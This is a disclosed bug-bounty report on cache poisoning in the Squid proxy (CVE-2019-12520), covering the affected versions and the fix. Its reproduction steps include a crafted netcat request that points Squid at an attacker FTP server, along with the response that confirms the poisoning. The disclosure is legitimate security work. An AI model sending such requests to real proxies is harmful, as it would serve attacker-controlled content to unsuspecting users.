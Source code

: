 # Cache Poisoning

## Report Details
- **Report ID**: 824753
- **URL**: https://hackerone.com/reports/824753
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-03-19T16:44:08.040Z
- **Disclosed**: 2021-08-26T23:26:46.049Z

## Reporter
- **Username**: jeriko_one
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
## Summary:
An attacker can cause Squid to return to the user attacker controlled data, for any domain. From Squid-4.7 and below both HTTPS and FTP could be poisoned. This is due to Squid URL decoding parts of the Request URL and using that to create a hash. Request that decode to the same URL will retrieve the same cached response even if they're from different domains. 

The fix for  CVE-2019-12524 removed the HTTPS aspect of it, but FTP poisoning was still possible till Squid-4.10. 

<= Squid-4.9 Vulnerable
<= Squid-4.7 Can also poison HTTPS was reduced to just FTP 

Assigned CVE-2019-12520
No Announce was officially made by Squid, and was silently fixed with Squid-4.10. This was going to be announced with http://www.squid-cache.org/Advisories/SQUID-2019_4.txt, but never got published when I demonstrated their patch was incomplete at the time.

Fixed in Squid-4.10
## Steps To Reproduce:
### Poisoning FTP Cache in Squid-4.9
1) Start Squid
2) Start a FTP Server I attached a python script for this
```
ftp_server.py 8080 8081
```
3) Make the Request to poison the cache
```
echo -e "GET ftp://hackerone.com%2f%3f@192.168.122.1:8080/payload HTTP/1.1\r\n\r\n" |nc <squid hostname> 3128
nc: using stream socket
HTTP/1.1 200 Gatewaying
Server: squid/4.9
Mime-Version: 1.0
Date: Thu, 19 Mar 2020 15:57:04 GMT
Content-Type: text/plain
Last-Modified: Wed, 27 Mar 2019 19:14:54 GMT
Age: 79
X-Cache: HIT from g64
Transfer-Encoding: chunked
Via: 1.1 g64 (squid/4.9)
```